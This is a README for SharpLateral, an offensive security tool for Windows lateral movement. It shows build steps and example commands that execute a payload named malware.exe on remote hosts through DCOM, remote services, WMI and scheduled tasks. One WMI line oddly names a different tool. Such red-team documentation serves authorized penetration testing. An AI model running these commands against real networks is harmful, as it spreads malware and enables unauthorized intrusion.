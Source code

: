 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
````Executes Malware on given hostname via MMC20````
 <br>Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
````Creates Task,Executes Malware,Deletes Task````<br>
<br>Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
````Creates Service and executes malware with it````
<br>WMI:<br>
  ``RedPersist.exe --help``<br><br>
 SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe<br>
````Executes malware via WMI on remote host````




